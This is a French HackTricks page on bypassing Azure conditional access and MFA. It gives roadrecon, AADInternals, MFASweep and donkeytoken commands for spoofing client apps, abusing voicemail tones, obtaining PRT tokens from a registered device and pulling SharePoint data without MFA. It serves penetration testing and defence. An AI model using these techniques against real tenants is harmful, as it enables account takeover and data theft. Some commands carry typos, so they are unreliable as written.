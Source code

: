 # Az - Politiques d'accès conditionnel / Contournement MFA

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Informations de base

Les politiques d'accès conditionnel Azure sont des règles établies dans Microsoft Azure pour appliquer des contrôles d'accès aux services et applications Azure en fonction de certaines **conditions**. Ces politiques aident les organisations à sécuriser leurs ressources en appliquant les bons contrôles d'accès dans les bonnes circonstances.\
Les politiques d'accès conditionnel **définissent** essentiellement **Qui** peut accéder à **Quoi** depuis **Où** et **Comment**.

Voici quelques exemples :

1. **Politique de risque de connexion** : Cette politique pourrait être configurée pour exiger une authentification multi-facteurs (MFA) lorsqu'un risque de connexion est détecté. Par exemple, si le comportement de connexion d'un utilisateur est inhabituel par rapport à son modèle régulier, comme se connecter depuis un pays différent, le système peut demander une authentification supplémentaire.
2. **Politique de conformité des appareils** : Cette politique peut restreindre l'accès aux services Azure uniquement aux appareils qui sont conformes aux normes de sécurité de l'organisation. Par exemple, l'accès pourrait être autorisé uniquement depuis des appareils ayant un logiciel antivirus à jour ou exécutant une certaine version du système d'exploitation.

## Contournements des politiques d'accès conditionnel

Il est possible qu'une politique d'accès conditionnel **vérifie certaines informations qui peuvent être facilement falsifiées, permettant un contournement de la politique**. Et si, par exemple, la politique était configurée pour MFA, l'attaquant pourra la contourner.

### Plateformes d'appareils - Condition d'appareil

Il est possible de définir une condition basée sur la **plateforme de l'appareil** (Android, iOS, Windows, macOS), cependant, cela est basé sur le **user-agent**, donc c'est assez facile à contourner. Même **en rendant toutes les options obligatoires pour MFA**, si vous utilisez un **user-agent qu'il ne reconnaît pas**, vous pourrez contourner la MFA.

### Emplacements : Pays, plages IP - Condition d'appareil

Bien sûr, si cela est défini dans la politique conditionnelle, un attaquant pourrait simplement utiliser un **VPN** dans le **pays autorisé** ou essayer de trouver un moyen d'accéder depuis une **adresse IP autorisée** pour contourner ces conditions.

### Applications clientes Office365

Vous pourriez indiquer que si les clients **accèdent aux applications Office 365 depuis le navigateur, ils ont besoin de MFA** :

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Pour contourner cela, il est possible de prétendre que vous vous connectez à une application depuis une application de bureau (comme Microsoft Teams dans l'exemple suivant), ce qui contournera la protection :
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
En raison des nombreuses autorisations de l'application Microsoft Teams, vous pourrez utiliser cet accès.

{% hint style="success" %}
Vous pouvez trouver l'I**D de plus d'applications publiques** avec des autorisations Office365 prédéfinies dans la base de données de roadtools :

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

Cette attaque est particulièrement intéressante car, par défaut, les applications publiques Office365 auront des autorisations pour accéder à certaines données.

### Autres applications

Par défaut, d'autres applications créées par des utilisateurs n'auront pas d'autorisations et pourraient être privées.\
Cependant, les utilisateurs pourraient également créer des **applications** **publiques** leur accordant certaines **autorisations.**

Un scénario potentiel où une politique est définie pour **exiger MFA pour accéder à une application** lorsque l'utilisateur utilise un **navigateur** (peut-être parce qu'il s'agit d'une application web et donc ce sera le seul moyen), s'il existe une **application proxy** - une application autorisée à **interagir avec d'autres applications au nom des utilisateurs** -, l'utilisateur pourrait **se connecter à l'application proxy** puis, via cette application proxy, **se connecter à l'application initialement protégée par MFA**.

Vérifiez les techniques [**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) et [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken).

## Autres contournements MFA Az

### Sonnerie

Une option Azure MFA est de **recevoir un appel au numéro de téléphone configuré** où il sera demandé à l'utilisateur de **envoyer le caractère `#`**.

{% hint style="danger" %}
Comme les caractères ne sont que des **tons**, un attaquant pourrait **compromettre** le message de **messagerie vocale** du numéro de téléphone, configurer comme message le **ton de `#`** et ensuite, lors de la demande de MFA, s'assurer que le **téléphone de la victime est occupé** (en l'appelant) afin que l'appel Azure soit redirigé vers la messagerie vocale.
{% endhint %}

### Appareils conformes

Les politiques demandent souvent un appareil conforme ou MFA, donc un **attaquant pourrait enregistrer un appareil conforme**, obtenir un **jeton PRT** et **contourner ainsi le MFA**.

Commencez par enregistrer un **appareil conforme dans Intune**, puis **obtenez le PRT** avec :
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
Trouvez plus d'informations sur ce type d'attaque dans la page suivante :

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## Outils

### [roadrecon](https://github.com/dirkjanm/ROADtools)

Obtenez toutes les politiques
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep est un script PowerShell qui tente de **se connecter à divers services Microsoft en utilisant un ensemble de credentials fourni et essaiera d'identifier si MFA est activé**. Selon la façon dont les politiques d'accès conditionnel et d'autres paramètres d'authentification multi-facteurs sont configurés, certains protocoles peuvent finir par être laissés en facteur unique. Il dispose également d'une vérification supplémentaire pour les configurations ADFS et peut tenter de se connecter au serveur ADFS sur site s'il est détecté.
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token est un ensemble de fonctions qui visent à aider les consultants en sécurité qui ont besoin de valider les politiques d'accès conditionnel, les tests pour les portails Microsoft activés 2FA, etc..
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**Testez chaque portail** s'il est possible de **se connecter sans MFA** :
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
Parce que le **portail** **Azure** **n'est pas contraint**, il est possible de **rassembler un jeton à partir de l'endpoint du portail pour accéder à tout service détecté** par l'exécution précédente. Dans ce cas, Sharepoint a été identifié, et un jeton pour y accéder est demandé :

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

Supposons que le jeton ait la permission Sites.Read.All (de Sharepoint), même si vous ne pouvez pas accéder à Sharepoint depuis le web en raison de MFA, il est possible d'utiliser le jeton pour accéder aux fichiers avec le jeton généré :
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## Références

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

